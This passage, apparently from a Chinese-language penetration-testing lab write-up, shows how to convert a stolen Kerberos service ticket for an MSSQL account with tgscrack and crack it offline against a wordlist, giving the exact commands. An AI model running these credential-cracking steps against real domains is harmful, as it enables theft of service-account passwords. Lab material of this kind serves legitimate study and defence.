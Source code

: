 使用`download`命令下载即可，使用`tgscrack`对票据进行转换并且破解，下载地址如下

```plain
https://github.com/leechristensen/tgscrack
```

运行以下命令进行转换

```plain
python2 extractServiceTicketParts.py '/home/kali/Desktop/tgscrack-master/2-40a10000-micle@MSSQLSvc~Srv-Web-Kit.rootkit.org~1433-ROOTKIT.ORG.kirbi' >tgshash
```

[![](assets/1708919803-b621f7f68efb81b7d80bd8cc264110a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142235-1b60d56a-ce26-1.png)

使用`tgscrack.go`进行破解，`go run tgscrack.go -hashfile tgshash -wordlist pass.txt`

[![](assets/1708919803-798c51a327b4879f04ff0548e838e692.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142240-1e04752e-ce26-1.png)

使用过程中可能会出现缺少依赖的问题，使用以下命令初始化新的模块然后安装即可

```plain
go mod init tgscrack 
go get golang.org/x/crypto/md4
```

